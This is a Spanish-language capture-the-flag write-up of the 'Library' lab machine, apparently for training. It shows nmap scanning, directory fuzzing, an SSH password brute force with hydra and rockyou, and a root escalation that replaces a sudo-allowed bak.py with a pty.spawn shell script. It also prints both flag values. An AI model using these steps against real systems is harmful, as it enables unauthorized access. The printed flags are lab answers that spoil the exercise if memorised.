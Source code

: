 # Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Escaneo de puertos](images/Pasted_image_20250221170150.png)

## Fuzzing web

Accedemos al sitio web. 

![[Pasted image 20250221170416.png]]

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![[Pasted image 20250221170508.png]]

El único interesante puede ser el directorio de  `/images/`

![[Pasted image 20250221171240.png]]

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![[Pasted image 20250221171339.png]]

Que puede ser `meliodas`por como vemos en la página anterior.

![[Pasted image 20250221171459.png]]

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![[Pasted image 20250221171938.png]]

```
ssh meliodas@10.10.31.106
```

![[Pasted image 20250221172044.png]]

Obtenemos la flag de`user.txt`.

![[Pasted image 20250221172143.png]]

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![[Pasted image 20250221172307.png]]

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![[Pasted image 20250221172514.png]]

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![[Pasted image 20250221172815.png]]

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![[Pasted image 20250221172922.png]]

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![[Pasted image 20250221173014.png]]

```
e8c8c6c256c35515d1d344ee0488c617
```












